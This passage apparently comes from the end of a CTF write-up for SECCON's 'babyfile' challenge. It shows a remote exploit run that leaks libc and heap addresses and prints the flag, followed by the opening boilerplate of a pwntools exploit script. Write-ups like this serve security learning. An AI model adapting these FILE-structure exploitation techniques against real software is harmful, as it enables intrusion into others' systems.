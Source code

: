 # PROFIT

After optimizing a lot my exploit (my french connection sucks), here we are:
```bash
nasm@off:~/Documents/pwn/seccon/babyfile$ time python3 exploit.py REMOTE HOST=babyfile.seccon.games PORT=3157
[*] '/home/nasm/Documents/pwn/seccon/babyfile/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/seccon/babyfile/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyfile.seccon.games on port 3157: Done
[*] libc: 0x7fe2bc538000
[*] heap: 0x55fd27776000
[*] _IO_obstack_jumps: 0x7fe2bc721260
[*] Switching to interactive mode
SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}
[*] Got EOF while reading in interactive
$
```

# Annexes


Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('chall')
libc = pwn.context.binary = pwn.ELF('libc-2.31.so')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
# pwn.context.timeout = 1000

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)

```